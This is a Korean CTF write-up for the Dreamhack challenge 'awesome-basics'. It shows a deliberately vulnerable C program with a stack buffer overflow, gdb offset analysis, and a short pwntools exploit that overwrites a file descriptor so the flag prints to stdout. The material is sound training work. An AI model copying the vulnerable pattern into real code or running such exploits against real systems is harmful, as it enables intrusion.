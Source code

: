 # Level1:awesome-basics

## 문제 링크

---

https://dreamhack.io/wargame/challenges/835

## Description

---

**Stack Buffer Overflow 취약점이 존재하는 프로그램입니다. 주어진 바이너리와 소스 코드를 분석하여 익스플로잇하고 플래그를 획득하세요! 플래그는 `flag` 파일에 있습니다.**

**플래그의 형식은 DH{...} 입니다.**

## Environment

---

![스크린샷 2025-02-06 오후 9.36.33.png](Level1%20awesome-basics%2024a8bcdf2bea43898f56358bf5082649/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-06_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_9.36.33.png)

## Background

---

- BOF

## 코드 분석

---

### code

- 아래는 문제에서 제공하는 `chall.c` 이다.

```purescript
// Name: chall.c
// Compile: gcc -zexecstack -fno-stack-protector chall.c -o chall

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>

#define FLAG_SIZE 0x45

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

char *flag;

int main(int argc, char *argv[]) {
    int stdin_fd = 0;
    int stdout_fd = 1;
    int flag_fd;
    int tmp_fd;
    **char buf[80];**

    initialize();

    // read flag
    flag = (char *)malloc(FLAG_SIZE);
    flag_fd = open("./flag", O_RDONLY);
    read(flag_fd, flag, FLAG_SIZE);
    close(flag_fd);

    tmp_fd = open("./tmp/flag", O_WRONLY);

    write(stdout_fd, "Your Input: ", 12);
    **read(stdin_fd, buf, 0x80);**

    write(tmp_fd, flag, FLAG_SIZE);
    write(tmp_fd, buf, 80);
    close(tmp_fd);

    return 0;
}
```

- `buf` 를 `char buf[80]` 으로 선언 후, `read` 에서 `0x80` 만큼 입력받는다. → BOF

- 위 코드는 `./flag` 를 읽어 `tmp_fd` 가 가리키는 `./tmp/flag` 에 플래그 값을 저장한다.
- 쉘을 획득해서 `./flag` 또는 `./tmp/flag` 를 읽는 방법을 생각해볼 수 있다.
    - 그러나 one gadget, ROP 를 사용하려면 `libc base` 를 구해야 하기 때문에 복잡하다.
    - 또한 한 번의 입력으로 `libc base` 를 구한 후, 쉘을 획득하는 것은 불가능하다.
    - `code base` 를 구해서 Ret2main을 구현해야 하는데… 번거롭다.

- **`tmp_fd` 가 가리키는 값을 `stdout` 으로 덮어씌워 `./tmp/flag` 가 아니라 `stdout` 에 플래그를 출력하도록 하는 방법이 있다.**

### gdb

- `buf` 와 `tmp_fd` 의 상대적인 위치 차이를 계산하여 `tmp_fd` 의 값을 `1` (`stdout`) 으로 덮어씌운다.
- 해당하는 부분을 `gdb` 로 분석하면 아래와 같다.

![스크린샷 2025-02-06 오후 9.47.20.png](Level1%20awesome-basics%2024a8bcdf2bea43898f56358bf5082649/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-06_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_9.47.20.png)

![스크린샷 2025-02-06 오후 9.50.12.png](Level1%20awesome-basics%2024a8bcdf2bea43898f56358bf5082649/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-06_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_9.50.12.png)

- `read(stdin_fd, buf, 0x80)` 에 해당하는 부분은 `<main+176> ~ <main+193>`
- `write(tmp_fd, flag, FLAG_SIZE)` 에 해당하는 부분은 `<main+198> ~ <main+218>` 이다.

- `x86-64` 함수 호출 규약에 의해 `buf` 에 해당하는 값은 `rsi` 값인 `[rbp-0x60]` , `tmp_fd` 에 해당하는 값은 `rdi` 값인 `[rbp-0x10]` 임을 알 수 있다.
- `buf` 에는 `0x80` 만큼의 입력을 받을 수 있으므로 `tmp_fd` 를 덮어쓸 수 있다.

## 익스플로잇

---

### 익스플로잇 단계

- BOF를 이용하여 `tmp_fd` 의 값을 `1` 로 설정한다.
    - `stdin` : `0`
    - `stdout` : `1`
    - `stderr` : `2`

### exploit.py

```purescript
from pwn import *

e = ELF('./chall')
# p = e.process()
p = remote('host1.dreamhack.games', 14624)
context.log_level ='debug'

payload = b'A' * 0x50 + p64(1)

p.sendlineafter(b'Your Input: ', payload)

p.interactive()
```

![스크린샷 2025-02-06 오후 9.54.58.png](Level1%20awesome-basics%2024a8bcdf2bea43898f56358bf5082649/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-06_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_9.54.58.png)